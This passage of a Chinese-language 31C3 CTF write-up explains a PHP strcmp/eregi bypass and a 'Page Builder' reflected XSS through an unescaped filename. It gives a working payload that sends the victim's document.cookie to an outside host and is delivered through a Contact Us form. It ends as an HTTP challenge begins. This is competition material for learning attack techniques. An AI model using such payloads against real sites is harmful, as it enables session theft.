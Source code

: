 这里用到的技巧是，array和string进行strcmp比较的时候会返回一个null，%00可以截断eregi

```
$c=@$_GET['c'];
$d=@$_GET['d'];
if(@$c[1]){
    if(!strcmp($c[1],$d) && $c[1]!==$d){
        eregi("3|1|c",$d.$c[0])?die("nope"):NULL;
        strpos(($c[0].$d), "31c3")?$v4=1:NULL;
    }
}
if($v1 && $v2 && $v3 && $v4){
    include "flag.php";
    echo $flag;
} 

```

0x02 Page Builder
=====

> These guys have ripped off our designs and using them in their web pages builder! We’d Haxx them, don’t worry we’ll give you decent points for it

这一题分为两步，第一步构造一个报错页面。报错页面中会显示的filename没有escape。

如下构造参数

```
filename=%3Cimg+src%3Dx+onerror%3Dalert%281%29%3E.php&title=aaa&style=style1&content=aaa 

```

会形成一个反射性的XSS

```
http://188.40.18.76/output/e53a4123da9c71138c0daa360b0d89ab05ced8b8/<img src=x onerror=alert(1)>.php

```

我们可以构造一个偷cookie的连接

```
http://188.40.18.76/output/e53a4123da9c71138c0daa360b0d89ab05ced8b8/<svg onload=eval(document.location.hash.slice(1))>.php#document.location='http://lanantest.sinaapp.com/?'+document.cookie

```

第二步把这个XSS提交到，Contact Us，就可以偷到cookie了，可以看到Flag

0x03 HTTP
=====

> Check out our cool webserver. It is really fast because it is implemented in C. For security we use the versatility of Ruby.
> 
> Get the source at:
> 
> http.tar.bz2 Some example sites hosted with our webserver:
> 
> http://works.90.31c3ctf.aachen.ccc.de/works.html
> 
> http://31c3ctf.90.31c3ctf.aachen.ccc.de/announcements.html

